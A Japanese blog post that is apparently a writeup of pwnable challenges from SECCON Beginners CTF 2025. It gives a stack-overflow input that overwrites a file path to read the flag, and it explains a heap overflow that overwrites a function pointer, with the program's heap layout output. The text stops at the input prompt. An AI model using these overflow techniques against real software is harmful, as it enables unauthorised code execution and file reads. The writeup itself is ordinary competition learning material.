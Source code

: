 +++
date = 2025-07-29
title = "SECCON Beginners CTF 2025 writeup"
[taxonomies]
tags = ["CTF"]
+++

## これは何
SECCON Beginners CTF 2025 writeupです。私が参加していた`touseki`は21位で、私はpwnableを担当していました。私が回答した問題はpwnableのうち3問ですが、`pivot4b++`も載せておきます。`TimeOfControl`というかヒープとカーネル問は今後の課題です。  

## pet_name
`pet_name`に対する`scanf()`が脆弱だったらしく、32バイトより多い入力でBOF。  
この変数の後ろにファイルパスの変数があるので、そこを`/home/pwn/flag.txt`にするとフラグが見えた。  
```c
char pet_name[32];
scanf("%s", pet_name);
```
つまり  
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/home/pwn/flag.txt`  
を入力として与えれば良い。フラグは忘れた。  

## pet_sound
`main.c, chall`しか渡されないが、ヒープ臭くて嫌。  
`Pet`構造体には関数ポインタの定義があり、`speak_sound()`という関数が本来は設定される。しかし、`speak_flag()`という関数が存在しており、これに書き換えるのだと思われる。  
また、`Pet`構造体には`char sound[32]`というメンバがあるが、`read(9, pet_A->sound, 0x32)`という自明なBOFが存在する。  

プログラムを実行すると、`pet_A->sound`への入力を促されるが、この入力こそ`read(0, pet_A->sound,, 0x32);`になっており、`0x32 -> 50`である。  
`pet_A->sound`から`pet_B->speak`のオフセットは`5*8 = 40bytes`あり、そこから+8bytesで上書き可能。  
```
--- Pet Hijacking ---
Your mission: Make Pet speak the secret FLAG!

[hint] The secret action 'speak_flag' is at: 0x64aed3852492
[*] Pet A is allocated at: 0x64af0487f2a0
[*] Pet B is allocated at: 0x64af0487f2d0

[Initial Heap State]

--- Heap Layout Visualization ---
0x000064af0487f2a0: 0x000064aed38525d2 <-- pet_A->speak
0x000064af0487f2a8: 0x00002e2e2e6e6177 <-- pet_A->sound
0x000064af0487f2b0: 0x0000000000000000
0x000064af0487f2b8: 0x0000000000000000
0x000064af0487f2c0: 0x0000000000000000
0x000064af0487f2c8: 0x0000000000000031
0x000064af0487f2d0: 0x000064aed38525d2 <-- pet_B->speak (TARGET!)
0x000064af0487f2d8: 0x00002e2e2e6e6177 <-- pet_B->sound
0x000064af0487f2e0: 0x0000000000000000
0x000064af0487f2e8: 0x0000000000000000
0x000064af0487f2f0: 0x0000000000000000
0x000064af0487f2f8: 0x0000000000020d11

Input a new cry for Pet A > 
---------------------------------
```
